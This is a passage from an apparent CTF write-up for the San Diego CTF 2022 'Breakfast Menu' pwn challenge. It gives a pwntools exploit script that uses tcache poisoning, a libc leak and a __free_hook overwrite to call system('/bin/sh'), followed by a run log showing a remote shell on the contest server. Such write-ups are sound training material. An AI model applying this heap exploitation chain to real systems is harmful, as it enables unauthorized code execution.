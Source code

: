 ```python
Create()
Edit(9, "A"*8+p64(heap_offset - 0x300 + 0x61))

Delete(0)
Delete(1)
Edit(1, p64(heap_base + 0x220))
Create()
Create()

# libc leak
Delete(11)
Edit(-12, p32(0xfbad3a87)+"\x01"*0x1b)
s.recvuntil("A"*8)
s.recv(8)
libc_leak = u64(s.recv(8))
libc_base = libc_leak - libc.sym.__malloc_hook - 0x70
free_hook   = libc_base + libc.sym.__free_hook
system_addr = libc_base + libc.sym.system
print "libc_leak =", hex(libc_leak)
print "libc_base =", hex(libc_base)

# Write __free_hook in tcache
Delete(0)
Delete(1)
Edit(1, p64(free_hook))

# Write system address in __free_hook
Create()
Create()
Edit(13, p64(system_addr))

# Start system("/bin/sh")
Edit(3, "/bin/sh\x00")
Delete(3)

s.interactive()
```

## Results:
The execution result is as follows.
```bash
mito@ubuntu:~/CTF/San_Diego_CTF_2022/Pwn_Breakfast_Menu_250$ python solve.py r
[*] '/home/mito/CTF/San_Diego_CTF_2022/Pwn_Breakfast_Menu_250/BreakfastMenu'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to breakfast.sdc.tf on port 1337: Done
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
heap_leak = 0x880300
heap_base = 0x87e000
libc_leak = 0x7fc8441e3ca0
libc_base = 0x7fc843df8000
[*] Switching to interactive mode
$ id
uid=1000(user) gid=1000(user) groups=1000(user)
```